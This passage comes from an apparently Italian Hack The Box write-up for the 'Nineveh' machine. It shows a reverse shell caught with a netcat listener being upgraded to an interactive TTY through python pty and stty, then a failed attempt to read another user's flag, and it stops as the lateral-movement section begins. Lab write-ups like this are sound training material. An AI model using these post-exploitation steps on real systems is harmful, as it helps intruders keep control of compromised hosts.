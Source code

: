 Facciamo upgrade della shell

```bash
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@nineveh:/var/www/html/department$ ^Z
zsh: suspended  nc -lnvp 4444
                                                                                                                                                                                                                                           
┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# stty raw -echo; fg
[1]  + continued  nc -lnvp 4444

www-data@nineveh:/var/www/html/department$ xport SHELL=bash
xport: command not found
www-data@nineveh:/var/www/html/department$ export SHELL=bash
www-data@nineveh:/var/www/html/department$ export TERM=xterm-256color
www-data@nineveh:/var/www/html/department$ 

```

Proviamo a prendere la user flag ma non abbiamo i permessi in quanto il file è di proprietà  di amrois

```bash
www-data@nineveh:/home/amrois$ cat user.txt 
cat: user.txt: Permission denied
www-data@nineveh:/home/amrois$ 

www-data@nineveh:/home/amrois$ ls -l 
total 4
-rw------- 1 amrois amrois 33 Jun 20 23:35 user.txt

```

Abbiamo bisogno di aumentare i nostri privilegi 


# LATERAL MOVIMENT & PRIVESC

## www-data ---> Amrois

Andiamo nella , directory /secure_notes dove avevamo trovato l'immagine 
